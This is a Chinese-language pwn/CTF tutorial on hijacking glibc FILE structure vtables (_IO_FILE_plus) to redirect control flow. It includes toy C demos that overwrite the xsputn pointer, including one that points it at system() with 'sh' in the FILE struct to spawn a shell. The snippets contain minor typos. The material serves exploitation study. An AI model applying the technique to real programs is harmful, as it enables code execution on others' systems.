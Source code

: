## 伪造 vtable 劫持程序流程

> <libc 2.23 --> 修改 vtable 中某些函数的指针
>
> \>=libc 2.23 --> 通过伪造 vtable 结构体来调用某些函数的指针

### 简介

IO 操作函数需要经过 FILE 结构进行处理。尤其是 _IO_FILE_plus 结构中存在 vtable，一些函数会取出 vtable 中的指针进行调用。

因此伪造 vtable 劫持程序流程的中心思想就是**针对_IO_FILE_plus 的 vtable 动手脚，通过把 vtable 指向我们控制的内存，并在其中布置函数指针来实现。**

**vtable 劫持分为两种，一种是直接改写 vtable 中的函数指针，通过任意地址写就可以实现。另一种是覆盖 vtable 的指针指向我们控制的内存，然后在其中布置函数指针。**

### 原理示例 

修改 vtable 中的指针，

```c
int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
    vtable_ptr[7]=0x41414141 //xsputn
    printf("call 0x41414141");
}
```

根据 vtable 在 \_IO_FILE_plus 的偏移得到 vtable 的地址，在 64 位系统下偏移是 0xd8。之后搞清楚劫持的 IO 函数会调用 vtable 中的哪个虚函数。vtable 函数进行调用时，传入的第一个参数其实是对应的 _IO_FILE_plus 地址。比如调用 printf ，传递给 vtable 的第一个参数是 \_IO_2_1_stdout\_ 的地址。利用这点可以实现给劫持的 vtable 函数传參，比如

```c
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable

    memcopy(fp,"sh",3);

    vtable_ptr[7]=system_ptr //xsputn


    fwrite("hi",2,1,fp);
}
```

但是在目前 **libc2.23 版本下，位于 libc 数据段的 vtable 是不可以进行写入的**。不过，通过在可控的内存中伪造 vtable 的方法依然可以实现利用。


[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）